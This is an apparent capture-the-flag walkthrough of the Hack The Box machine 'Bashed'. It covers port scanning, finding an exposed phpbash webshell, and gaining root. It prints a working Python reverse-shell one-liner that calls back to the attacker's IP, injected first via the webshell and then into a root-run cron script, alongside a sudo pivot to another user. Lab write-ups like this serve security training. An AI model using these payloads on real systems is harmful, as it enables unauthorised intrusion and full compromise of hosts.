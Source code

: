 # Bashed

## Nmap

```
sudo nmap 10.10.10.68 -p- -sS -sV   

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Over on port 80 the root page directs us to Arrexel's development site which appears to be a blog. The first post mentions a webshell called phpbash.

![](<../../../.gitbook/assets/image (1660).png>)

Following the page we see some further information regarding phpbash with a GitHub link.

![http://10.10.10.68/single.html#](<../../../.gitbook/assets/image (1661).png>)

Running dirsearch.py against the web server with the big.txt wordlists from Seclist. we find the `/dev/` directory.

```
sudo python3 dirsearch.py -u http://10.10.10.68 -w /usr/share/seclists/Discovery/Web-Content/big.txt --full-url -t 75
```

![](<../../../.gitbook/assets/image (1662).png>)

Browsing to the directory we see an index page containing the phpbash.php shell mentioned earlier.

![http://10.10.10.68/dev/](<../../../.gitbook/assets/image (1663).png>)

Clicking on the phpbash.php takes us to the webshell.

![](<../../../.gitbook/assets/image (1664).png>)

Next, ideally we will get a proper reverse shell. I checked if python was installed with `which python` command and this was confirmed as being installed.

![](<../../../.gitbook/assets/image (1666) (1).png>)

I then set a `netcat` listener on my attacking machine and then executed the command below into the webshell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.29",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![](<../../../.gitbook/assets/image (1667).png>)

From here checking `sudo -l` for `sudo` permissions shows that we can run all commands as the user 'scriptmanager' without providing a password.

![](<../../../.gitbook/assets/image (1668).png>)

As such running the command below will spawn us a bash shell as the user scriptmanager.

```
sudo -u scriptmanager /bin/bash
```

![](<../../../.gitbook/assets/image (1669).png>)

From here I noticed the non default 'scripts' folder in '/'.

![](<../../../.gitbook/assets/image (1670) (1).png>)

Which contains two files; test.py and test.txt

![](<../../../.gitbook/assets/image (1671).png>)

When viewing the contents it looks like when test.py is executed it created a test.txt file and writes the contents 'testing 123!' to the file

![](<../../../.gitbook/assets/image (1672).png>)

Providing this is executed with elevated privileges we insert a python reverse shell into test.py as we are the owner of the file. I uploaded pspy64 to the target system to check if these are being executed by a cronjob.

After uploading the binary and setting the correct executable permissions I executed pspy64 and was presented with the following:

![](<../../../.gitbook/assets/image (1674).png>)

We see that a process is being executed on a regular interval that is executed any file ending in .py. Because we are the owner of test.py I will simply echo out the contents and replace with a python reverse shell.

```
echo  > test.py
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.29",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > test.py
```

I then set a listener to port 53 on my attacking machine and soon after caught a root shell.

![](<../../../.gitbook/assets/image (1675).png>)
